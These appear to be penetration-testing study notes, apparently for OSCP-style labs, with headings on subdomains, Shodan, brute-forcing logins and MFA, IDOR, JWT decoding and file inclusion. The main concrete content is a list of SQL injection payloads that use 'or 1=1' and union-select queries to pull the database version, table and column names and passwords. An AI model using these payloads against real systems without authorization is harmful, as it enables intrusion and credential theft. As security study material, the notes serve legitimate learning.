 
### How should we find subdomains?
```bash



```

### Shodan
```bash
shodan init API_KEY
shodan info
```

### Authentication
**Password Brute-force Attacks**
- [Burpsuite Password Bruteforce](#burpsuite-password-bruteforce)
- [Burpsuite Username Password Bruteforce with Lockout](#burpsuite-username-password-bruteforce-with-lockout)
- [Ffuf Password Bruteforce](#ffuf-password-bruteforce)
- [ffuf Username Password Bruteforce with Lockout](#ffuf-username-password-bruteforce-with-lockout)

**Attacking MFA**
- Can we bruteforce MFA?
- See if anyone is using same MFA(use it against others' account login)

### IDOR
- [burpsuite](#burpsuite-idor)
- [ffuf](#ffuf-idor)

### Broken Access Control: JWT token(jwt.io)
- Can we update/access others account with current user's JWT?
JWT token has three parts separated by dot. In the example, the last part(signature) is missing.
![image](https://github.com/nurijeon/OSCP/assets/14031269/68330cc8-4b4d-4e03-94b9-326bd31efaee)
```bash
└─$ echo "eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=" | base64 -d
{"user":"jeremy","role":"staff"}  
```

### LFI/RFI
- [Ffuf File Inclusion](#ffuf-file-inclusion)

### SQLi
[SQLMAP](#sqlmap)

**Using or 1=1 statement & union select**
```bash
jeremy' or 1=1#
jeremy' or 1=1-- -

# union select - database version
jeremy' union select null, null, version()#

# union select - database table names
jeremy' union select null, null, table_name from information_schema.tables#

# union select - database columns names
jeremy' union select null, null, column_name from information_schema.columns#

# union select - password from injection0x01 table
jeremy' union select null, null, password from injection0x01#
```
